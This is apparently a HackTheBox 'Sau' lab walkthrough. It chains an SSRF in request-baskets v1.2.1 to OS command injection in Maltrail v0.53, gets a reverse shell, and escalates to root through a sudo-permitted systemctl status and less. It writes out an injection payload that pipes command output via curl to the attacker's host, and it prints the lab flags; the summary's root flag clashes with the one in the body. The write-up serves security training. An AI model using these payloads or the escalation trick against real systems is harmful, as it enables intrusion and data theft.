<p align="center">
  
</p>

---

- 🎯 **Target:** HackTheBox - Sau Linux machine
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 05.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities; Privilege Escalation (sudo misconfig)
- 💻 **Platform:** Linux

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point)
- [SSRF](#-ssrf)
- [Command Injection](#-command-injection)
- [vertical privilege escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{327b415ec573c1bd0ba02afd53ec33b0}`  |
|   Root Flag   | `flag{04a8b36e1545a455393d067e772fe90e}`  |
|   Technique   | `SSRF`, `OS Command Injection`	    |

---

> Add the machine address to /etc/hosts:

```bash

echo '10.10.11.224 sau.htb' | sudo tee -a /etc/hosts && ping sau.htb

10.10.11.224 sau.htb

PING sau.htb (10.10.11.224) 56(84) bytes of data.
64 bytes from sau.htb (10.10.11.224): icmp_seq=1 ttl=63 time=42.2 ms
64 bytes from sau.htb (10.10.11.224): icmp_seq=2 ttl=63 time=42.1 ms
64 bytes from sau.htb (10.10.11.224): icmp_seq=3 ttl=63 time=42.0 ms
^C
--- sau.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 41.968/42.101/42.196/0.097 ms

```

---
## 🕵️  Reconnaissance

> Scanning the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 sau.htb -oN sau_tcp_scan

```
> Results:

```
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     http    syn-ack ttl 63 Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web

```

> `80` and `8338` ports in `filtered` status. Two open ports are available for interaction - `22 (ssh)` and `55555 (web)`.
> Go to the browser on `55555` port:

<p align="center">
  
</p>

> On the page in the browser I see the web application `request basket` `v1.2.1` designed for testing and debugging HTTP requests. The application
> allows you to create and send `http` requests with different methods and log them for further analysis.

> The principle of operation is quite simple. A basket is created with a unique `url` endpoint:

<p align="center">
  
</p>

> The provided `url` with our basket endpoint can be used to make requests:

<p align="center">
  
</p>

<p align="center">
  
</p>

> All requests go to our `0fhwi18` basket. They can be viewed, analyzed, etc.

---
## 🚪 Entry Point

> In the application settings there is a function `Forward Url` which allows you to redirect requests to another address.
> As an example, I will indicate my system:

<p align="center">
  
</p>

> I send a `GET` request:

> Result:

```bash

nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.224] 60142
GET / HTTP/1.1
Host: 10.10.14.15:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Priority: u=0, i
Upgrade-Insecure-Requests: 1
X-Do-Not-Forward: 1

```
> Receiving a redirected `GET` request on behalf of the server `10.10.11.224 (sau.htb)`.

---

> **Note:** It is worth mentioning an important point. At this stage, I have not **proven any vulnerability**. I have only shown the `forward url` function working
> because it is very important since it is our `Entry point`. I have simply shown that it is possible to **tell the server** where to redirect
> incoming requests - **to me, for example**.

---

> The vulnerability occurs when we can force a request on behalf of the server to other **internal** system resources to which we should not have access.
> If the server does not check and filter such requests, then this is `SSRF`.

---

**Note:** `SSRF` - **Server Side Request Forgery** - is a serious web vulnerability that allows a hacker to make requests to internal or
resources that are not accessible from outside to other users on behalf of the `server`. In other words, we get into a situation where the server, on our command, makes a `GET`
request to an internal resource that I should not have access to from the external network. And I get a response.

---

> According to our version **v1.2.1** of the `request basket` application, there is a **CVE** in the description of which it says so - `This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.`:

<p align="center">
  
</p>

---
### 🔑 SSRF

> Previously `nmap` scans found two ports with `filtered` status - `80` and `8338`. This means that `nmap` could not determine whether the port is open or closed
> because the filter installed on the server blocks incoming packets and does not respond.

> This means that there may be some internal application running locally on `localhost` on the server that is not intended for public use.

> I change the `Forward Url` parameter to `http://localhost:80` telling the server where to forward the `GET` request from `request basket`:

> Send the request:

```bash

curl -I http://sau.htb:55555/lhduz07

HTTP/1.1 501 Not Implemented
Connection: close
Content-Length: 497
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Jul 2025 18:58:09 GMT
Server: Maltrail/0.53

```
> The server redirected an incoming `GET` request to an internal resource on `localhost` and returned a response. `SSRF` vulnerability **proven**.

> Go to browser:

<p align="center">
  
</p>

> The resource running on `localhost` is `Maltrail` version `v0.53` - an IDS system that tracks suspicious traffic based on **blacklists**, **anomalies** and **signatures**.
> After searching for the version of this system I found that it is vulnerable to `OS command Injection` for the `username` parameter:

<p align="center">
  
</p>

<p align="center">
  
</p>

### 🔑 Command Injection

> On port `8338` is the login form for the **Maltrail** admin panel:

<p align="center">
  
</p>

> Intercepting request in `BurpSuite`:

<p align="center">
  
</p>

> To check the vulnerable `username` parameter, I will send a simple `POST` request with the embedded `id` command in `base64` encoding and via `xargs` I will redirect the
> result of the encoded response to my server:

```http

POST /0fhwi18/login HTTP/1.1
Host: sau.htb:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://sau.htb:55555
Connection: keep-alive
Referer: http://sau.htb:55555/0fhwi18/
Priority: u=0

username=`id | base64 | xargs -I{} curl http://10.10.14.15:1111/{}`

```
> Result:

<p align="center">
  
</p>

> decode answer:

```bash

echo "dWlkPTEwMDEocHVtYSkgZ2lkPTEwMDEocHVtYSkgZ3JvdXBzPTEwMDEocHVtYSkK" | base64 -d

uid=1001(puma) gid=1001(puma) groups=1001(puma)

```
> Okay. `command injection` vulnerability is **proven**.

> I'll write a simple **python script** that will send an encoded command with a **reverse shell** to the vulnerable `username` parameter:

<p align="center">
  
</p>

> run the exploit and get a reverse shell:

```bash

nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.224] 35982
bash: cannot set terminal process group (881): Inappropriate ioctl for device
bash: no job control in this shell

puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$

```
> I get first flag:

```bash

puma@sau:/opt/maltrail$ cd /home/puma
cd /home/puma
puma@sau:~$ cat user.txt
cat user.txt

327b415ec573c1bd0ba02afd53ec33b0

puma@sau:~$

```
> user flag - `327b415ec573c1bd0ba02afd53ec33b0`

---

## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

```bash

puma@sau:/opt/maltrail$ tty
tty
not a tty
puma@sau:/opt/maltrail$

```
> upgrade shell to `pty` via python:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
> Result:

```bash

puma@sau:/opt/maltrail$ tty
/dev/pts/1
puma@sau:/opt/maltrail$

```
> Checking configured privileges for user `puma` in `/etc/sudoers`:

```bash

puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```
> The command `/usr/bin/systemctl status trail.service` can be run by `puma` as any other user and group (`ALL : ALL`).
> This is a potential vector for privilege escalation since I can run this command with `root` privileges, for example, without having to
> enter a password:

```bash

puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sat 2025-07-19 11:07:21 UTC; 2h 2min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 881 (python3)
      Tasks: 18 (limit: 4662)
     Memory: 40.8M
     CGroup: /system.slice/trail.service
             ├─ 881 /usr/bin/python3 server.py
             ├─1318 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1319 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1322 bash
             ├─1323 bash -i
             ├─1353 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1354 /bin/bash
             ├─1392 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1393 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed p>
             ├─1396 bash
             ├─1397 bash -i
             ├─1428 script /dev/null -c /bin/bash
             ├─1429 /bin/bash
             ├─1439 sudo /usr/bin/systemctl status trail.service


```
> We get into the file reading mode in `less`.

> We can exit this mode back to the shell but with the `root` privileges preserved using the `!bash` combination:

<p align="center">
  
</p>

```bash

root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)

```
> I get last flag:

```bash

root@sau:/opt/maltrail# cd /root
root@sau:~# more root.txt

74f8000dd407d93d52a7827b273a719a

root@sau:~#

```
> root flag - `74f8000dd407d93d52a7827b273a719a`

> Machine is pwned.

---
## 🧠 Conclusion

> During the walkthrough of this machine an `SSRF vulnerability` was detected in the `request basket v1.2.1` service, which allowed access to the internal IDS
> system `Maltrail` running on `localhost` on port 80. The version of this system v0.53 is vulnerable to `OS Command Injection` in the **username** parameter.
> Exploitation of this vulnerability allowed access to the system under the `puma` user, for whom insecure rights were configured in /etc/sudoers, which led
> to a complete compromise of the system.

<p align="center">
  
</p>
